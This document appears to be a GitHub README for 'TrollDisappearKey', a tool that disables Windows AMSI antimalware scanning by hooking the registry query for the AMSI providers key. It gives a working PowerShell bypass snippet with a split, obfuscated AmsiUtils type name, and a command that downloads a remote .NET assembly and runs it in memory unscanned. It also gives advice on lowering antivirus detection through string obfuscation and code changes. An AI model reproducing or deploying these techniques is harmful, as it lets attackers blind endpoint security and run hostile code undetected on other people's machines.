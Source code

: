 # TrollDisappearKey
TrollDisappearKey.cs   -> compile into a .exe that can load .exe assemblies without amsi scanning taking place during assembly.load() \
TrollDisappearKeyPS.cs -> compile into a .dll to reflectively load to bypass powershell amsi \
TrollDisappearKeyPS.cs -> copy paste into powershell 


# How does it work?
Upon assembly.load(), internals of amsi/clr will search for reg key "Software\Microsoft\AMSI\Providers" to load the relevant provider dlls (i.e security vendor dlls) 
We hook the reg query function and when amsi/clr tries to read "Software\Microsoft\AMSI\Providers" we overwrite its value to "Software\Microsoft\AMSI\Providers "  <- note the space after providers
This breaks the provider dlls loading process and we are able to assembly load any .net assembly we want. For the powershell amsi, its somewhat similar, we break the vendor dll loading and call uninitialize to trigger a reinitialize. 

## .powershell Usage (does not require admin)
![Image](https://github.com/user-attachments/assets/f6b4d83a-ed24-433b-9e2a-4cf6bfe1d1b0)
```
pwd  # run any random command first, this is a must 

[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\TrollDisappearKeyPS.dll"))
[TrollDisappearKeyPS]::DisappearKey()

$t1 = 'System.Manage'
$t2 = 'ment.Automa'
$t3 = 'tion.A'
$t4 = 'msi'
$t5 = 'Utils'
$object = [Ref].Assembly.GetType($t1 + $t2 + $t3 + $t4 + $t5)
$Uninitialize = $object.GetMethods("NonPublic,static") | Where-Object Name -eq Uninitialize
$Uninitialize.Invoke($object,$null)
```

## Detections 
![Image](https://github.com/user-attachments/assets/60ff00a8-b619-407e-8083-29efc38c632d)



  
## .exe Usage (does not require admin) 
![Image](https://github.com/user-attachments/assets/f1678081-5fa8-4f4d-b7d3-ae9bd2e02a9f)
![Image](https://github.com/user-attachments/assets/7ef91a6a-957f-4c91-80a2-c0b54409917c)

```
TrollDisappearKey.exe <URL TO .EXE ASSEMBLY> <ARGUMENT1,ARGUMENT2>
```

## Example
```
TrollDisappearKey.exe "https://github.com/Flangvik/SharpCollection/raw/refs/heads/master/NetFramework_4.7_x64/Seatbelt.exe" "AMSIProviders"
```
## Detections 
Not too bad since zero effort to evade detection, there's tons of things to improve but i shall leave it to the reader. You can immediately drop it to maybe 5 by altering the ExecuteAssembly() function since its using standard code that's deemed malicious. Can rename/obufscate certain strings like the reg key path and void the use of certain API calls and improve the hook library further \
![Image](https://github.com/user-attachments/assets/e4c80f07-ddbc-4ed6-9ad0-c8e104931f90)


## Features
Nothing actually, its quite barebone with short code profile so anyone can tweak it to their needs  (e.g tweak the code to load .dll assemblies instead of just .exe assemblies)

## Disclaimer
Should only be used for educational purposes!







